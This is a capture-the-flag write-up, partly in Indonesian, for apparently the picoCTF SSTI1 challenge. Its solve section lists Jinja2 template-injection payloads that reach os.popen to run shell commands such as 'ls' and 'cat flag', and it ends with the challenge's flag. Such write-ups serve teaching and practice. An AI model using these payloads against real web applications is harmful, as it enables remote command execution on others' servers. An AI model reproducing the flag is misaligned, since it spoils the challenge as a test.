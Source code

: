 # soal
I made a cool website where you can announce whatever you want! Try it out!

## launch istance
Additional details will be available after launching your challenge instance.
I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website here!

# hint
- Server Side Template Injection

# solve
- saya melihat bahwa ini adalah web SSTI
- saya pertama mencoba payload simple dengan payload sederhana SSTI ```{{ 7+7 }}```
  ![alt text](images/E_SSTI1/image.png)
  ![alt text](images/E_SSTI1/image-1.png)
- setelah itu saya mencoba payload dari sini
  - [https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html](https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html)
  - [me2nuk.com/SSTI-Vulnerability/](https://me2nuk.com/SSTI-Vulnerability/)
  ```bash
  {{config}}

  {{self}} 
  {{_self.env}}
  {{self.env}}
  {{self._templateReference}}

  # 1
  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read()}}

  {{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read()}}

  # 2
  {{ config.__class__.__init__.__globals__.os.popen('ls').read() }}
  ```

## python
- download [E_SSTI1.py](https://raw.githubusercontent.com/ariafatah0711/ctf_aria/refs/heads/main/picoCTF/web_exploit/solve/E_SSTI1.py) 
```bash
python3 E_SSTI1.py
```

# flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}